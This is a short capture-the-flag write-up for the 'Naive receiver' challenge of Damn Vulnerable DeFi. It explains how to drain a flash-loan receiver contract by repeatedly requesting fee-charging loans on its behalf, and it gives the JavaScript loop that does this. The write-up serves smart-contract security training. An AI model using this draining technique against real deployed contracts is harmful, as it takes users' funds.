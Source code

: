 # Challenge #2 - Naive receiver


There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.

You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiving flash loans of ETH.

Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)

    [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.2.0/contracts/naive-receiver)
    [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/test/naive-receiver/naive-receiver.challenge.js)

# Solution

The flashloans fees are very expensive, and the pool has no protector against 3rd party attackers calling the flashloan function.

The solution is to call the flashloan function on behalf of the user.

```js
while ((await ethers.provider.getBalance(this.receiver.address)).toString() > 0) {
    await this.pool.flashLoan(this.receiver.address, ETHER_IN_RECEIVER)
}
```
